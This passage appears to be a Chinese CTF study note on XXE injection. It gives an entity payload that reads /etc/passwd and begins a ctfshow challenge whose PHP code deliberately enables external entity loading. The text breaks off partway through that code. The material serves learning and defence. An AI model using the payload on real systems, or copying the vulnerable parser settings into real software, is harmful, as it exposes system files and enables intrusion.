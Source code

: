 应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件

## 危害

文件读取
命令执行
内网端口扫描
攻击内网网站
ddos等

## 利用姿势

### 有回显

最简单的读取文件

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

下面先分好类，在做题过程中不断补充

### 无回显

ctfshow的几种姿势已在下面

# 参考链接

[XML外部实体注入（XXE）攻击方式汇总](https://tttang.com/archive/1813/)

[浅析XML外部实体注入](https://tttang.com/archive/1716/)

[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357#toc-8)

# ctfshow-xxe

## web373

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();//初始化XML解析器
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//加载客户端输入的XML内容
    $creds = simplexml_import_dom($dom);//获取XML文档节点，如果成功则返回SimpleXMLElement对象，如果失败则返回FALSE
    $ctfshow = $creds->ctfshow;//获取SimpleXMLElement对象中的节点ctfshow
    echo $ctfshow;
```